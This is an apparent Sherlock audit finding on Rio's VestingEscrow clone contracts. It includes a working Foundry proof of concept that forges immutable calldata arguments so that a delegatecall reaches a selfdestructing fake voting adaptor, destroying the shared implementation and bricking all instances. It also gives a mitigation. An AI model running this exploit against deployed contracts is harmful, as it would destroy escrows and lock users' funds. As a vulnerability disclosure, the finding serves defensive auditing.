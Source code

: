 Shambolic Pickle Gazelle

high

# VestingEscrow implementation can be destroyed bricking all deployed instances

## Summary

The VestingEscrow implementation used to clone and deploy new instances from the factory can be destroyed by an attacker, rendering all instances unusable.

## Vulnerability Detail

VestingEscrow instances are deployed using a pattern known as "clones with immutable arguments", provided by the LibClone library of the solady package. This is a standard clone (a proxy that points to an implementation instance) with the addition of a set of "immutable" arguments that are forwarded by the proxy by appending them to calldata.

The presence of this pattern, coupled with the delegatecall mechanics of the voting adapter, can be used by an attacker to effectively destroy the implementation contract used behind all proxies deployed from the factory.

The attack needs the execution of a `delegatecall`, let's focus on `vote()` as an example:

```solidity
function vote(bytes calldata params) external onlyRecipient whenVotingAdaptorIsSet returns (bytes memory) {
    return _votingAdaptor().functionDelegateCall(abi.encodeCall(IVotingAdaptor.vote, (params)));
}
```

The implementation delegatecalls to the voting adaptor, which comes from the factory:

```solidity
function _votingAdaptor() internal view returns (address) {
    return factory().votingAdaptor();
}

function factory() public pure returns (IVestingEscrowFactory) {
    return IVestingEscrowFactory(_getArgAddress(0));
}
```

Now the factory is an immutable argument, meaning we simply need to append the proper data to `calldata` to arbitrarily set its value. 

The attacker can deploy a fake factory that returns a voting adapter that calls `selfdestruct()` when `vote()` is executed. Then the attacker calls `vote()` on the implementation passing the proper `calldatata` that mimics the required immutable arguments. 

The attack destroys the logic contract behind all proxies, bricking all deployed escrow instances.

See proof of concept below for a detailed walkthrough of the issue.

## Impact

The impact of this issue is critical.

All deployed instances will be bricked and all funds will be lost.

## Proof of Concept

```solidity
// SPDX-License-Identifier: GPL-3.0
pragma solidity 0.8.23;

import {TestUtil} from 'test/lib/TestUtil.sol';
import {ERC20Token} from 'test/lib/ERC20Token.sol';
import {VestingEscrow} from 'src/VestingEscrow.sol';
import {console2 as console} from 'forge-std/Test.sol';

contract Destructor {
    function vote(bytes calldata) external {
        selfdestruct(payable(tx.origin));
    }

    function votingAdaptor() external returns (address) {
        return address(this);
    }
}

contract SherlockTest is TestUtil {
    address owner;
    address manager;

    address attacker;

    function setUp() public {
        owner = makeAddr("owner");
        manager = makeAddr("manager");
        attacker = makeAddr("attacker");

        setUpProtocol(ProtocolConfig({owner: owner, manager: manager}));
    }

    function test_DestroyImplementation() public {
        // Fetch implementation
        address implementation = factory.vestingEscrowImpl();

        // Destructor will selfdestruct when vote() is called
        Destructor destructor = new Destructor();

        // Calldata layout is:
        // selector 4 bytes
        // params 32 bytes
        // injected factory 20 bytes
        // injected token 20 bytes
        // injected recipient 20 bytes
        // offset to immutable args 2 bytes

        // 3 addresses and 2 bytes for the offset itself
        uint16 offset = 20 + 20 + 20 + 2;

        bytes memory data = abi.encodePacked(
            VestingEscrow.vote.selector,
            bytes32(0), // params
            address(destructor), // factory
            address(0), // token
            attacker, // recipient
            offset
        );

        vm.prank(attacker);
        (bool s, ) = implementation.call(data);
        require(s);
    }
}
```

## Code Snippet

https://github.com/sherlock-audit/2024-01-rio-vesting-escrow/blob/main/rio-vesting-escrow/src/VestingEscrow.sol#L154-L156

https://github.com/sherlock-audit/2024-01-rio-vesting-escrow/blob/main/rio-vesting-escrow/src/VestingEscrow.sol#L161-L163

https://github.com/sherlock-audit/2024-01-rio-vesting-escrow/blob/main/rio-vesting-escrow/src/VestingEscrow.sol#L268-L270

## Tool used

Manual Review

## Recommendation

The issue can be mitigated by switching to the classic clone pattern, removing immutable arguments, and ensuring the implementation contract cannot be initialized (for example, using `_disableInitializers()` in the OZ framework).

As an alternative, if the intention is to keep the immutable arguments pattern, a `onlyDelegateCall` modifier (see below) can be added to the functions that execute a `delegatecall` (`vote()`, `voteWithReason()`, `_delegate()`) to prevent these functions from being directly called on the implementation contract.

```solidity
contract VestingEscrow is IVestingEscrow, Clone {
    address public immutable IMPLEMENTATION;
  
    constructor() {
        IMPLEMENTATION = address(this);
    }
    
    modifier onlyDelegateCall() virtual {
      require(address(this) != IMPLEMENTATION, "Only delegatecall");
        _;
    }
    
    ...
}
```
